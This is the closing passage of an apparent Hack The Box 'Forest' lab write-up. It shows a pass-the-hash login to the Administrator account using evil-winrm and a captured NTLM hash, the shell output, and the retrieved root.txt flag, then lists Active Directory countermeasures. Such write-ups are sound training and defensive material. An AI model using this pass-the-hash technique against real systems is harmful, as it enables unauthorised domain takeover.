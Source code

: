 
After grabbing the Administrator's hash, I passed it to WinRM to login, fully compromising the host and grabbing the `root.txt` flag:

```
kali@kali:~/htb/boxes/forest/loot$ ~/tools/evil-winrm/evil-winrm.rb -H '32693b11e6aa90eb43d32c72a07ceea6' -u Administrator -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:15 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> gc root.txt
f048153f202bbb2f82622b04d79129cc
```

## Countermeasures

* Don't allow anonymous users to access LDAP on the domain controller.
* Don't allow anonymous users to access NetBIOS on the domain controller.
* Implement an Active Directory account lockout policy to prevent password spraying attacks.
* Prefer enabling kerberos preauthentication for the `svc-alfresco` user. If this is not possible, use a dedicated securely random password that is strong enough to not be brute forced offline.
* Use tools like bloodhound to check for dangerous ACLs that can lead to domain admin privilege escalation.
* Remove the `writeDACL` permission for the `Exchange Windows Permissions` group. The [following script](https://github.com/gdedrouas/Exchange-AD-Privesc) should help with this.
* For future security of the system, audit and monitor ACL changes in Active Directory. You can find more instructions for this at the bottom of [this article](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/).
